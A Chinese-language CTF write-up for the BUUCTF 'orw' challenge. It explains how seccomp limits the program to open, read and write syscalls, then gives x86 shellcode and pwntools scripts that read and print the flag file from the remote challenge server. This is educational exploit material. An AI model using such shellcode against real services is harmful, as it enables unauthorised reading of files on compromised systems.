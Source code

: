### Orw 绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d8e78188c538a9b5c018dc.png)

直接执行用户输入

![](https://pic1.imgdb.cn/item/67d8e7ab88c538a9b5c018f1.png)

`prctl seccomp` 相当于内核中的一种安全机制，正常情况下，程序可以使用所有的 `syscall`

但是当劫持程序流程之后通过 `exeve` 来呼叫 `syscall` 得到 shell 时 `seccomp` 遍排上了用场

他可以过滤掉某些 `syscall`，只允许使用部分 `syscall`

本题系统内核只允许使用 `sys_open，sys_read，sys_write`

![](https://pic1.imgdb.cn/item/67d8e7d088c538a9b5c0190b.png)

通过 open 函数打开当前目录下的 flag 文件

在文件读写之前，我们必须先打开文件

从应用程序的角度来看，这是通过标准库的 open 函数完成的，该函数返回一个文件描述符

内核中是由系统调用 `sys_open()` 函数完成

```shell
    # 第一部分：实现
    char*file='flag';
    sys_open(file,0,0);
 
    xor ecx,ecx;
    mov eax,0x5;     # eax = sys_open
    push ecx;        # 字符串结尾"\00"
    push 0x67616c66; # "flag字符串的16进制表示，由于小端序，所以是从右往左"
    mov ebx,esp;     # ebx = const char __user *filename
    xor edx,edx;     # edx  = int mode 设定权限的
    int 0x80;
```

利用 read 函数读取文件中的数据

```shell
    # 第二部分：实现
    sys_read(3,file,0x30);
 
    mov eax,0x3; # eax = sys_read
    mov ecx,ebx; # ecx = char __user *buf 缓冲区，读出的数据-->也就是读“flag”
    mov ebx,0x3; # ebx = unsigned int fd = 3 文件描述符
    mov dl,0x30; # edx = size_t count 对应字节数
    int 0x80;
```

利用 write 函数将文件中的数据打印到屏幕上

```shell
    # 第三部分：实现
    sys_write(1,file,0x30);
 
    mov eax,0x4; # eax = sys_write
    mov bl,0x1;  # ebx = unsigned int fd = 1
    mov edx,0x30 # edx = size_t count
    int 0x80;
```

```python
from pwn import *

p = remote('node5.buuoj.cn',29475)

context(log_level = 'debug', arch = 'i386', os = 'linux')

shellcode=""
shellcode += asm('xor ecx,ecx;mov eax,0x5; push ecx;push 0x67616c66; mov ebx,esp;xor edx,edx;int 0x80;')
shellcode += asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;')
shellcode += asm('mov eax,0x4;mov bl,0x1;mov edx,0x30;int 0x80;')

recv = p.recvuntil(':')
p.sendline(shellcode)
print(p.recv(100))
```

还可以利用 shellcraft

```python
from pwn import *

r = remote('node5.buuoj.cn',29475)

elf = ELF('orw')

shellcode = shellcraft.open('/flag')
shellcode += shellcraft.read('eax','esp',100)
shellcode += shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)

r.sendline(shellcode)
r.interactive()
```

